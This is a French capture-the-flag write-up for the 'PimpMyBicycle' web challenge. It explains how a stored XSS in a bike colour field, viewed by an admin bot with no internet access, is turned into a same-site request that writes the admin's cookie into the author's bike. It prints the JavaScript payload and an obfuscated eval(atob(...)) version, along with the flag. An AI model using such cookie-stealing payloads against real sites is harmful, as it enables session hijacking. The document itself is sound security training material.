




# PimpMyBicycle



Très rapidement nous pouvons identifier la vulnérabilité associé à ce challenge avec la possibilité d'envoyer notre style de vélo à l'administrateur pour le faire vérifier.

Comme bien souvent dans les ctf quand il y a un bot dans le backend qui vérifie nos input, il s'agit d'une XSS.

> XSS, bah tranquil dans 15/20 min c'est flag

Je n'étais pas au bout de mes surprise.

Commençons par tenter une XSS à la place d'une couleur dans notre vélo car c'est le seul élément réflected.



> Bingo ! c'est bon, une redirection, et c'est flag



j'ai alors essayé la redirection et ça fonctionne pour moi. Cependant j'avais omis l'énoncé ! 

> _note: admin doesn't have access to the internet ! He is behind a very restrictive firewall, and he can only be on his own website_

Le chall devient intéréssant. 

Sans réfléchir et pendant 30 minutes, j'ai cherché des payloads XSS pour palier ce soucis. Mais comment stocké un cookie sur ce site que nous ne contrôlons pas.

Après réflexions nous avons la possibilité de créer des svg pour des styles de vélo donc pourquoi pas faire crée un vélo à l'admin ... encore mieux pourquoi pas lui faire modifier un vélo que j'ai créé. Bien évidement il nous déposera gentillement son cookie à la place de la couleur.

J'ai donc créé ma payload CSRF. 

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "/?page=preview&action=editBike&id=341");
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send("data=%5B%7B%22id%22%3A%22roue0%22%2C%22slot%22%3A0%2C%22colors%22%3A%5B%22%5C%22%3E%25"+document.cookie+"%23e53935%22%2C%22%23fb8c00%22%5D%7D%2C%7B%22id%22%3A%22roue0%22%2C%22slot%22%3A1%2C%22colors%22%3A%5B%22%231e88e5%22%2C%22%238e24aa%22%5D%7D%2C%7B%22id%22%3A%22guidon2%22%2C%22slot%22%3A2%2C%22colors%22%3A%5B%22%235bcffa%22%2C%22%23f5abb9%22%5D%7D%2C%7B%22id%22%3A%22selle1%22%2C%22slot%22%3A3%2C%22colors%22%3A%5B%22%2343a047%22%5D%7D%2C%7B%22id%22%3A%22cadre3%22%2C%22slot%22%3A4%2C%22colors%22%3A%5B%22%23fdd835%22%5D%7D%5D");
```

payload final : 

```javascript
eval(atob("dmFyIHhociA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwp4aHIub3BlbigiUE9TVCIsICIvP3BhZ2U9cHJldmlldyZhY3Rpb249ZWRpdEJpa2UmaWQ9MzQxIik7Cnhoci5zZXRSZXF1ZXN0SGVhZGVyKCdDb250ZW50LXR5cGUnLCAnYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkJyk7Cnhoci5zZW5kKCJkYXRhPSU1QiU3QiUyMmlkJTIyJTNBJTIycm91ZTAlMjIlMkMlMjJzbG90JTIyJTNBMCUyQyUyMmNvbG9ycyUyMiUzQSU1QiUyMiU1QyUyMiUzRSUyNSIrZG9jdW1lbnQuY29va2llKyIlMjNlNTM5MzUlMjIlMkMlMjIlMjNmYjhjMDAlMjIlNUQlN0QlMkMlN0IlMjJpZCUyMiUzQSUyMnJvdWUwJTIyJTJDJTIyc2xvdCUyMiUzQTElMkMlMjJjb2xvcnMlMjIlM0ElNUIlMjIlMjMxZTg4ZTUlMjIlMkMlMjIlMjM4ZTI0YWElMjIlNUQlN0QlMkMlN0IlMjJpZCUyMiUzQSUyMmd1aWRvbjIlMjIlMkMlMjJzbG90JTIyJTNBMiUyQyUyMmNvbG9ycyUyMiUzQSU1QiUyMiUyMzViY2ZmYSUyMiUyQyUyMiUyM2Y1YWJiOSUyMiU1RCU3RCUyQyU3QiUyMmlkJTIyJTNBJTIyc2VsbGUxJTIyJTJDJTIyc2xvdCUyMiUzQTMlMkMlMjJjb2xvcnMlMjIlM0ElNUIlMjIlMjM0M2EwNDclMjIlNUQlN0QlMkMlN0IlMjJpZCUyMiUzQSUyMmNhZHJlMyUyMiUyQyUyMnNsb3QlMjIlM0E0JTJDJTIyY29sb3JzJTIyJTNBJTVCJTIyJTIzZmRkODM1JTIyJTVEJTdEJTVEIik7"))
```

Plus qu'a envoyer le vélo en vérification auprès de l'admin.
Il à bien modifier le vélo avec son cookie.



Nous pouvons maintenant modifier notre cookie et devenir admin pour récupérer le flag.

`
`
Flag : `PWNME{Th1s_Is_A_Re41Ly_W3iRd_BiK3}`

Merci à Eteck pour ce chall intéréssant.


